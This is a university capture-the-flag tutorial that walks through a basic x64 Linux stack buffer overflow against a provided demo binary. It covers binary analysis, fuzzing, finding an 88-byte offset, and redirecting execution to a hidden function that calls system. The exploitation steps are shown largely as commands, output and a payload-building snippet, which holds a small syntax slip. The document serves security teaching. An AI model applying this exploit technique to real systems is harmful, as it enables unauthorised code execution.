


# How to do a Basic Linux Buffer Overflow Attack!

This tutorial will go through how to successfully do a basic buffer overflow attack! Follow this document and you will be able to complete the main challenge!

This demonstration comes with both the ELF (the vulnerable executable) and its source code, the main challenge does not come with the C source code but it is very similar to this demo and you don't need to see the source code to exploit a buffer overflow (especially using this method).

## Setup

You'll need to install some applications beforehand to be able to follow this tutorial. Your computers architecture needs to be **x64** as well, so use the seed ubuntu docker container to do this demo.

The first tool we will install is `pwnlib`. `pwnlib` is a exploit development framework which can be really helpful with binary exploitation. To install run the following commands.

```
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

If you have `pwnlib` installed correctly, you should see similar output to what is shown below when you run the command `checksec`.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ checksec demo
[*] '/home/ghostccamm/Desktop/University-2021/CITS3004/ctf-assignment/pwn/bofdev/challenge_files/provided_files/student_bofdev/demo/demo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Next we will install `edb`, which is a graphical debugger that will be helpful with developing our buffer overflow exploit. You can install `edb` running the following commands.

```
sudo apt install edb-debugger
```

Finally we will download the Python Exploit Pattern Tool (https://github.com/Svenito/exploit-pattern). This python script will be used to generate a pattern of characters that will be helpful with figuring out parameters to successfully trigger our exploit. You can download this script from the repo or running the following `curl` command.

```
curl https://raw.githubusercontent.com/Svenito/exploit-pattern/master/pattern.py -o pattern.py
```

With that all done you are ready!

## Step 0: Initial Analysis

We will go through the initial analysis methodology **without using the provided source code**. The source code for this demonstration was only provided for your convenience to help you understand how things work.

First we will check the security settings for `demo` and see what are our limitations when crafting our exploit. You can do this using the `checksec` command that was mentioned in the previous setup section.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ checksec demo
[*] '/home/ghostccamm/Desktop/University-2021/CITS3004/ctf-assignment/pwn/bofdev/challenge_files/provided_files/student_bofdev/demo/demo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see only the non-executable stack protection has been implemented. This means that we will be able to craft a reliable buffer overflow exploit (if one exists), but we will not be able to execute our malicious payload on the stack.

Next we will list the functions used within the executable by using the `readelf` command.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ readelf -Ws demo

Symbol table '.dynsym' contains 6 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
     1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND system@GLIBC_2.2.5 (2)
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __isoc99_scanf@GLIBC_2.7 (3)

Symbol table '.symtab' contains 64 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
     1: 00000000004002a8     0 SECTION LOCAL  DEFAULT    1
     2: 00000000004002c4     0 SECTION LOCAL  DEFAULT    2
     3: 00000000004002e8     0 SECTION LOCAL  DEFAULT    3
     4: 0000000000400308     0 SECTION LOCAL  DEFAULT    4
     5: 0000000000400328     0 SECTION LOCAL  DEFAULT    5
     6: 00000000004003b8     0 SECTION LOCAL  DEFAULT    6
     7: 0000000000400418     0 SECTION LOCAL  DEFAULT    7
     8: 0000000000400428     0 SECTION LOCAL  DEFAULT    8
     9: 0000000000400458     0 SECTION LOCAL  DEFAULT    9
    10: 0000000000400488     0 SECTION LOCAL  DEFAULT   10
    11: 0000000000401000     0 SECTION LOCAL  DEFAULT   11
    12: 0000000000401020     0 SECTION LOCAL  DEFAULT   12
    13: 0000000000401060     0 SECTION LOCAL  DEFAULT   13
    14: 0000000000401214     0 SECTION LOCAL  DEFAULT   14
    15: 0000000000402000     0 SECTION LOCAL  DEFAULT   15
    16: 000000000040206c     0 SECTION LOCAL  DEFAULT   16
    17: 00000000004020b0     0 SECTION LOCAL  DEFAULT   17
    18: 0000000000403e10     0 SECTION LOCAL  DEFAULT   18
    19: 0000000000403e18     0 SECTION LOCAL  DEFAULT   19
    20: 0000000000403e20     0 SECTION LOCAL  DEFAULT   20
    21: 0000000000403ff0     0 SECTION LOCAL  DEFAULT   21
    22: 0000000000404000     0 SECTION LOCAL  DEFAULT   22
    23: 0000000000404030     0 SECTION LOCAL  DEFAULT   23
    24: 0000000000404040     0 SECTION LOCAL  DEFAULT   24
    25: 0000000000000000     0 SECTION LOCAL  DEFAULT   25
    26: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
    27: 00000000004010a0     0 FUNC    LOCAL  DEFAULT   13 deregister_tm_clones
    28: 00000000004010d0     0 FUNC    LOCAL  DEFAULT   13 register_tm_clones
    29: 0000000000401110     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    30: 0000000000404040     1 OBJECT  LOCAL  DEFAULT   24 completed.0
    31: 0000000000403e18     0 OBJECT  LOCAL  DEFAULT   19 __do_global_dtors_aux_fini_array_entry
    32: 0000000000401140     0 FUNC    LOCAL  DEFAULT   13 frame_dummy
    33: 0000000000403e10     0 OBJECT  LOCAL  DEFAULT   18 __frame_dummy_init_array_entry
    34: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS demo.c
    35: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
    36: 00000000004021cc     0 OBJECT  LOCAL  DEFAULT   17 __FRAME_END__
    37: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS
    38: 0000000000403e18     0 NOTYPE  LOCAL  DEFAULT   18 __init_array_end
    39: 0000000000403e20     0 OBJECT  LOCAL  DEFAULT   20 _DYNAMIC
    40: 0000000000403e10     0 NOTYPE  LOCAL  DEFAULT   18 __init_array_start
    41: 000000000040206c     0 NOTYPE  LOCAL  DEFAULT   16 __GNU_EH_FRAME_HDR
    42: 0000000000404000     0 OBJECT  LOCAL  DEFAULT   22 _GLOBAL_OFFSET_TABLE_
    43: 0000000000401210     1 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
    44: 0000000000404030     0 NOTYPE  WEAK   DEFAULT   23 data_start
    45: 0000000000404040     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    46: 0000000000401142    19 FUNC    GLOBAL DEFAULT   13 executeme
    47: 0000000000401214     0 FUNC    GLOBAL HIDDEN    14 _fini
    48: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND system@GLIBC_2.2.5
    49: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.2.5
    50: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5
    51: 0000000000404030     0 NOTYPE  GLOBAL DEFAULT   23 __data_start
    52: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    53: 0000000000404038     0 OBJECT  GLOBAL HIDDEN    23 __dso_handle
    54: 0000000000402000     4 OBJECT  GLOBAL DEFAULT   15 _IO_stdin_used
    55: 00000000004011b0    93 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    56: 0000000000404048     0 NOTYPE  GLOBAL DEFAULT   24 _end
    57: 0000000000401090     1 FUNC    GLOBAL HIDDEN    13 _dl_relocate_static_pie
    58: 0000000000401060    43 FUNC    GLOBAL DEFAULT   13 _start
    59: 0000000000404040     0 NOTYPE  GLOBAL DEFAULT   24 __bss_start
    60: 0000000000401155    80 FUNC    GLOBAL DEFAULT   13 main
    61: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __isoc99_scanf@GLIBC_2.7
    62: 0000000000404040     0 OBJECT  GLOBAL HIDDEN    23 __TMC_END__
    63: 0000000000401000     0 FUNC    GLOBAL HIDDEN    11 _init
```

Of particular interest are the functions `main` and `executeme`, since they are both user defined functions. We will take a closer look at those two functions using `objdump`. Just a heads up `objdump` will display the assembly code for all functions, so we will only care about the snippets below.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ objdump -d demo

demo:     file format elf64-x86-64

...

0000000000401142 <executeme>:
  401142:	55                   	push   %rbp
  401143:	48 89 e5             	mov    %rsp,%rbp
  401146:	48 8d 3d bb 0e 00 00 	lea    0xebb(%rip),%rdi        # 402008 <_IO_stdin_used+0x8>
  40114d:	e8 de fe ff ff       	callq  401030 <system@plt>
  401152:	90                   	nop
  401153:	5d                   	pop    %rbp
  401154:	c3                   	retq   

0000000000401155 <main>:
  401155:	55                   	push   %rbp
  401156:	48 89 e5             	mov    %rsp,%rbp
  401159:	48 83 ec 50          	sub    $0x50,%rsp
  40115d:	48 8d 3d c9 0e 00 00 	lea    0xec9(%rip),%rdi        # 40202d <_IO_stdin_used+0x2d>
  401164:	b8 00 00 00 00       	mov    $0x0,%eax
  401169:	e8 d2 fe ff ff       	callq  401040 <printf@plt>
  40116e:	48 8d 45 b0          	lea    -0x50(%rbp),%rax
  401172:	48 89 c6             	mov    %rax,%rsi
  401175:	48 8d 3d b8 0e 00 00 	lea    0xeb8(%rip),%rdi        # 402034 <_IO_stdin_used+0x34>
  40117c:	b8 00 00 00 00       	mov    $0x0,%eax
  401181:	e8 ca fe ff ff       	callq  401050 <__isoc99_scanf@plt>
  401186:	48 8d 45 b0          	lea    -0x50(%rbp),%rax
  40118a:	48 89 c6             	mov    %rax,%rsi
  40118d:	48 8d 3d a4 0e 00 00 	lea    0xea4(%rip),%rdi        # 402038 <_IO_stdin_used+0x38>
  401194:	b8 00 00 00 00       	mov    $0x0,%eax
  401199:	e8 a2 fe ff ff       	callq  401040 <printf@plt>
  40119e:	b8 00 00 00 00       	mov    $0x0,%eax
  4011a3:	c9                   	leaveq
  4011a4:	c3                   	retq   
  4011a5:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  4011ac:	00 00 00
  4011af:	90                   	nop

...
```

The `executeme` looks like it will be our target since it uses the `system` function, which means we could (potentially) run terminal commands. However, `executeme` is never called from within the `main` function.

**Therefore, we will need to develop our buffer overflow exploit to make the program execute the `executeme` function!**

## Step 1: Verify that the Program is Vulnerable to a Buffer Overflow Attack

Run the binary program to see how things execute first.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ ./demo                                                                                                   
Name: Alex

Thanks for connecting Alex!
I go to go now, bye!
```

The program looks like it asks for your name and prints back your name then disconnects. We can confirm this by reading the source code at `demo.c`, but remember that we won't have the convenience of the source code for the challenge (so let's avoid looking at that).

We can test if the input is vulnerable to a buffer overflow attack by doing something called **fuzzing**. This is when you send a large payload to each of the inputs of program to see which one results in a crash, which could lead to a buffer overflow attack. Our demo program only has 1 input so let's send it a really long string instead of our name.

```
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks for connecting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
I go to go now, bye!
zsh: segmentation fault  ./demo
```

**GREAT!**

We have found out the name input is vulnerable to overwriting the programs stack and causing a **segmentation fault!**

## Step 2: Finding the Offset to Overwrite the Stack Pointer

Our next task is to find **exactly** how many bytes we need to send so that we overwrite the **stack pointer register (RSP for x64)**. If we can overwrite the stack pointer then we can change flow of the program and execute other functions, such as `executeme`.

To do this, we will use the `pattern.py` Python script that you downloaded in the setup phase. We'll assume that the buffer is less than 300 bytes, so we will run the following command.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ python3 pattern.py 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

We will input this long list of characters when we run our program using the `edb` debugger. Let's start up `edb` by typing the following commands.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ sudo edb --run ./demo
```

Once the GUI has loaded, press the play button until you see the `Name: ` pop up on your terminal. Now copy over the pattern and you will see the program crash.



Great!

Now we need to grab the value on the top of the stack when the program seg faulted and input back into `pattern.py` to get our offset.



Copy the text `c9Ad0Ad1` from the top of the stack and run the following command with `pattern.py`.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ python3 pattern.py c9Ad0Ad1
Pattern c9Ad0Ad1 first occurrence at position 88 in pattern.
```

**Great!**

We now know that we need to have **88 bytes** in our buffer before we overwrite the stack pointer.

## Step 3: Pointing the Stack Pointer to the `executeme` Function

Our goal is to overwrite the value on the stack pointer to be the address of the `executeme` function so that we execute it. We can figure out the address using `objdump` again since the PIE protection is disabled and the function will reliably load with the same address.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ objdump -d demo

demo:     file format elf64-x86-64

...

0000000000401142 <executeme>:
  401142:    55                       push   %rbp
  401143:    48 89 e5                 mov    %rsp,%rbp
  401146:    48 8d 3d bb 0e 00 00     lea    0xebb(%rip),%rdi        # 402008 <_IO_stdin_used+0x8>
  40114d:    e8 de fe ff ff           callq  401030 <system@plt>
  401152:    90                       nop
  401153:    5d                       pop    %rbp
  401154:    c3                       retq   

...
```

Copy the hexadecimal address `0000000000401142` next to the `<executeme>` and save it somewhere for when we develop our payload!

## Step 4: Writing a Python Script to Generate Our Payload

Now we have everything we need to generate our payload! Our payload will be 88 bytes of the character `"A"` (in can be any character) followed by the target address `0x0000000000401142` packed in **little-endian** byte order (this is because of how most operating systems work at a low level). You can generate the address payload using the `struct` module and the following code snippet.

```
import struct

payload_address = struct.pack('<Q', int('0x0000000000401142', base=16)
```

The rest of the python code will be left for you to complete. The following output was from my payload generating exploit code that saved the payload into a file called `exploit.bin` that I then piped into the vulnerable program.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ ./demo < exploit.bin
Name:
Thanks for connecting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB@!
I go to go now, bye!
SUCCESSFUL BOF ATTACK! YAY :D
zsh: segmentation fault  ./demo < exploit.bin
```

If you have successfully exploited the `demo` program you can now do the main challenge!
